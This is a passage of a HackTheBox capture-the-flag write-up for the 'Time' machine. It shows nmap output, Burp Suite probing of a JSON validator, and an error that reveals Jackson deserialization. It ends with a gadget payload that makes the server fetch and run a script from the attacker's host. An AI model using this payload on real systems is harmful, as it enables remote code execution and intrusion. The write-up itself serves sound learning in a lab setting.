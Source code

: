 +++
title = "HackTheBox Write-up&mdash;Time"
+++

This machine has IP 10.10.10.214.

We enumerate:
```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-12 16:42 NZST
Nmap scan report for time (10.10.10.214)
Host is up (0.25s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 0f:7d:97:82:5f:04:2b:e0:0a:56:32:5d:14:56:82:d4 (RSA)
|   256 24:ea:53:49:d8:cb:9b:fc:d6:c4:26:ef:dd:34:c1:1e (ECDSA)
|_  256 fe:25:34:e4:3e:df:9f:ed:62:2a:a4:93:52:cc:cd:27 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.57 seconds
```

We go to `http://time` and find an online JSON beautifier and validator.  Cool!  My first thought: I wonder how it validates it?  Does it run something?  I also recall that [you can use JSON instead of HTML](https://twitter.com/tsoding/status/1357636127184855040).

I input `{"key":"val"}` and it indents it nicely.  Using Burp Suite, it seems to use a POST call, with these body parameters:
```
mode=1&data=%7B%22key%22%3A%22val%22%7D
```

I now try the Beautify option (which is in Beta) and these are the body parameters:
```
mode=2&data=%7B%22key%22%3A%22val%22%7D
```

This, however, gives the following error:
```
Validation failed: Unhandled Java exception: com.fasterxml.jackson.databind.exc.MismatchedInputException: Unexpected token (START_OBJECT), expected START_ARRAY: need JSON Array to contain As.WRAPPER_ARRAY type information for class java.lang.Object
```

Using some basic attack methods using the Intruder tab in Burp Suite, it seems that any other `mode` number will default to `mode=1`.

Changing the body parameters to
```
mode=1&data={"key":"val"}
```

gives the same output (as with `mode=2`), so we don't need to encode our query.

Trying to give it an array (`["key":"val"]`) does not work (it is invalid to the Beautifier, as it returns `null`).

I search the aforementioned error and find [this](https://stackoverflow.com/questions/26251486/jackson-polymorphic-deserialization-expected-start-array).  If I append this search with `"exploit"` I find [this](https://swapneildash.medium.com/understanding-insecure-implementation-of-jackson-deserialization-7b3d409d2038).

```json
["ch.qos.logback.core.db.DriverManagerConnectionSource",{"url":"jdbc:h2:mem:;INIT=RUNSCRIPT FROM 'http://10.10.14.239/'"}]
```
